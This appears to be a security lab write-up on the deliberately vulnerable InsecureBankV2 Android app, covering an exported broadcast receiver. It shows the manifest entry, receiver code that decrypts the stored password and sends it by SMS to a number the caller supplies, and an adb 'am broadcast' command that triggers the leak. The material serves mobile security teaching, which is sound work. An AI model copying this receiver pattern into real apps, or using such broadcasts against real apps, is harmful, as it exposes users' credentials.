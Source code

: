 - [Broadcast Receiver Discription](#Broadcast_receiver_description)
- [Exported Broadcast Receiver](#Exported_broadcast_receiver)
  - [AndroidManifest declaration](#AndroidManifest.xml)
  - [Method code implementation](#method_code)
  - [ADB exploitation](#adb_exploitaion)

# Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

# Exported_broadcast_receiver

## AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
## method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
## adb_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
